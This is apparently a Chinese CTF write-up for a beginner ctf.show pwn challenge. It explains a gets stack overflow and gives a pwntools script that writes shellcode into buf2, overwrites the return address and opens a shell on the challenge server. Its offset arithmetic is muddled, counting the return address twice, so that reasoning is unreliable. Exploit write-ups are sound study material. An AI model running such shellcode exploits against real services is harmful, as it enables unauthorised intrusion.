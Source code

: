 # 挑战简介
入门难度shellcode

# 思路
确实很基础，前面是让你访问即可，这一次你依旧需要找到栈溢出的位置

通过两个函数，一个gets和一个strncpy

1. 局部变量布局：在x86架构中，栈从高地址向低地址生长。函数调用时会依次压入返回地址、保存的ebp（基址指针），然后分配局部变量空间。
2. 给定代码片段：char s; // [esp+1Ch] [ebp-64h]表示变量s的地址为ebp-0x64（即十进制100）。
3. 帧结构中各部分的偏移：
ebp到返回地址的偏移是4字节（因为返回地址紧邻ebp的上方）。
ebp-0x64到ebp的偏移是100字节（0x64）。
因此从s到返回地址的总偏移量是100 (局部变量空间) + 4 (保存的ebp) + 4 (返回地址) = 108字节。
4. 最终需要覆盖的偏移：
由于gets(&s)会覆盖从s开始的内容，要覆盖到返回地址，需要填充108字节（覆盖到返回地址处）再加4字节（覆盖返回地址本身）。

因此偏移量为112个字节，后面4个字节则覆盖buf2返回地址以及写入sh脚本并执行

```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

context(os='linux', arch='i386', log_level='debug')

p = remote("pwn.challenge.ctf.show",28260)
elf = ELF('D:\edge 下载\pwn')

offset = 112

buf2_addr = elf.sym['buf2']
    
shellcode = asm(shellcraft.sh())

payload = shellcode.ljust(offset, b'a') + p32(buf2_addr)

p.recvuntil("CTFshow-pwn can u pwn me here!!")

p.sendline(payload)

p.interactive()

```
